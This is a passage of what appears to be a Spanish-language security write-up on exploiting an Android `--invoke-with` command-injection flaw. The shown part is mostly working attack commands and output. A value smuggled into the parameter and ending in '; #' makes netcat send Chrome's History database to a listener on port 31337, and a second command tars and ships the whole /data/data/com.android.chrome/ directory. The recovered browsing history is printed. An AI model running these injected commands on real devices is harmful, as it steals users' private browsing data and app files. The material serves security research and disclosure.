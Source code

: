 ```bash
/data/data/com.android.chrome/app_chrome/Default/History
```
&nbsp;
Este archivo es una base de datos SQLite (binaria), un blanco perfecto para la prueba. Lo que haremos es modificar el comando que va en `--invoke-with` para enviar el archivo por _netcat_:

```bash
nc -w 3 127.0.0.1 31337 < /data/data/com.android.chrome/app_chrome/Default/History ; #
```
&nbsp;
Del lado de la escucha, el comando sería:

```bash
adb shell nc -l -p 31337 > History
```
&nbsp;
Explotamos… y si todo sale bien, podremos abrir el archivo `History` que quedó guardado en nuestra compu:

```bash
$ adb shell nc -l -p 31337 > History
$ sqlite3 ./History
SQLite version 3.49.1 2025-02-18 13:38:58   
Enter ".help" for usage hints.
sqlite> .tables
downloads                meta                     urls                   
downloads_slices         segment_usage            visit_source           
downloads_url_chains     segments                 visits                 
keyword_search_terms     typed_url_sync_metadata
sqlite> select * from urls;
1|https://www.amazon.com/|Amazon.com|1|0|13389403328808160|0
2|https://m.youtube.com/|YouTube|2|0|13389403337227256|0
3|https://www.mercadolibre.com/|Mercado Libre - Envíos Gratis en el día|1|0|13389403339817557|0
4|https://mobile.twitter.com/|X|1|0|13389403346111866|0
5|https://twitter.com/|X|1|0|13389403346111866|0
6|https://x.com/|X|2|0|13389403346771913|0
```
&nbsp;
¡Muy bien! Pero... ¿cómo sacamos el irectorio entero en un solo comando?

En internet hay muchas referencias sobre cómo transferir archivos con _netcat_, y varias usan el comando `tar` para empaquetar un directorio completo y enviarlo.

El _hechizo_ final que transfiere el directorio completo sería:

```bash
tar --create --file=- /data/data/com.android.chrome/ | nc -w 3 localhost 31337 ; #
```
&nbsp;
Y del lado de la escucha, solo enviamos la salida a un archivo `.tar`:

```bash
adb shell nc -l -p 31337 > chrome.tar
```
&nbsp;
Luego de ejecutar la explotación, podemos comprobar que `chrome.tar` contiene todos los archivos y subdirectorios de `/data/data/com.android.chrome/`. ¡En el blanco!

---